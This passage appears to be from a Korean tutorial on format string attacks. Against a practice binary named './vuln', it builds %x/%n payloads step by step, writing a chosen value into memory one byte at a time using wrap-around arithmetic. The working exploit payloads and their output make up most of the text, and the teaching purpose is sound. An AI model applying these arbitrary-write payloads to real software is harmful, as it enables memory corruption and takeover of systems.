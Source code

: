 ```console
./vuln 
$(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\x97\x04\x08JUNK\xf7\x97\x04\x08")
%x%x%161x%n


test_val = 0x080497f4 = 109517 0x000000cd
next_val = 0x080497f8 = 286331153 0x11111111
```

<br>

두 번째 바이트인 0xAB를 쓰려면 171바이트를 출력해야하는데 이미 205바이트를 출력했으므로 줄이는 것은 불가능한 상황.

해결책은 바로 205에서 34를 빼는 대신 (```0xab - 0xcd = -34```) 222를 더해 427를 만드는 것임. (```0x1ab - 0xcd = 222```)

<br>

```console
./vuln 
$(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\x97\x04\x08JUNK\xf7\x97\x04\x08")
%x%x%161x%n%222x%n


test_val = 0x080497f4 = 109517 0x0001abcd
next_val = 0x080497f8 = 286331136 0x11111100
```

<br>

이 기법을 이용하여 세 번째(0x06), 네 번째(0x08) 바이트도 쉽게 쓸 수 있음.

<br>

```console
0x06 - 0xab = -165
0x106 - 0xab = 91

./vuln 
$(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\x97\x04\x08JUNK\xf7\x97\x04\x08")
%x%x%161x%n%222x%n%91x%n


test_val = 0x080497f4 = 33991629 0x0206abcd
next_val = 0x080497f8 = 286326784 0x11110000
```

<br>

```console
0x08 - 0x06 = 2

./vuln 
$(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\x97\x04\x08JUNK\xf7\x97\x04\x08")
%x%x%161x%n%222x%n%91x%n%2x%n


test_val = 0x080497f4 = 235318221 0x0e06abcd
next_val = 0x080497f8 = 285212674 0x11000002
```

